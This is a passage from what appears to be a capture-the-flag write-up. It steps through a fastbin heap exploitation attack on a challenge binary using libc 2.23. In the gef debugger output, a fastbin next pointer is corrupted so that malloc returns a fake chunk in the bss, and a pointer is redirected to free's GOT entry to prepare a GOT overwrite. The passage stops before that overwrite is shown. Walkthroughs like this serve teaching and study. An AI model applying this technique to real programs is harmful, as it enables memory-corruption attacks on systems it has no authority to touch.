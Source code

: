 So we can see that the top chunk has a next pointer to the next chunk in the fastbin. We are going to edit that to be the address of our fake chunk:

```
gef➤  x/g 0xfd6e10
0xfd6e10:	0x6052ed
```

Next up we will allocate a chunk of size `0x60`. This will give us chunk `5`, and add our fake chunk to the top of the fastbin:

```
gef➤  x/10g 0x605310
0x605310:	0xfd6c20	0xfd6d20
0x605320:	0xfd6da0	0xfd6ea0
0x605330:	0xfd6da0	0xfd6e10
0x605340:	0xfd6e10	0x0
0x605350:	0x0	0x0
gef➤  search-pattern 0x00000000006052ed
[+] Searching '\xed\x52\x60\x00\x00\x00\x00\x00' in memory
[+] In '/home/guyinatuxedo/Desktop/elementary/libc-2.23.so'(0x7f56bca04000-0x7f56bca06000), permission=rw-
  0x7f56bca04b50 - 0x7f56bca04b70  →   "\xed\x52\x60\x00\x00\x00\x00\x00[...]" 
```

So we can see that malloc returned the chunk we got at index `5` (`0x605338`). We also see that our fake chunk `0x6052ed` is in the libc, in the fastbin list. We will allocate another chunk of `0x60` and instead of it giving us the chunk at index `4`, it will give us our fake chunk:

```
gef➤  x/10g 0x605310
0x605310:	0xfd6c20	0xfd6d20
0x605320:	0xfd6da0	0xfd6ea0
0x605330:	0xfd6da0	0xfd6e10
0x605340:	0xfd6e10	0x6052fd
0x605350:	0x0	0x0
```

So we can see that we were able to execute the fastbin attack to get malloc to return our fake chunk to the bss. Next up we will overwrite the first heap pointer with the got table entry address for free:

```
gef➤  x/10g 0x605310
0x605310:	0x605060	0xfd6d20
0x605320:	0xfd6da0	0xfd6ea0
0x605330:	0xfd6da0	0xfd6e10
0x605340:	0xfd6e10	0x6052fd
0x605350:	0x0	0x0
gef➤  x/g 0x605060
0x605060:	0x7f56bc6c44f0
gef➤  x/i 0x7f56bc6c44f0
   0x7f56bc6c44f0 <free>:	push   r13
```

Next up, we will do the got table overwrite:

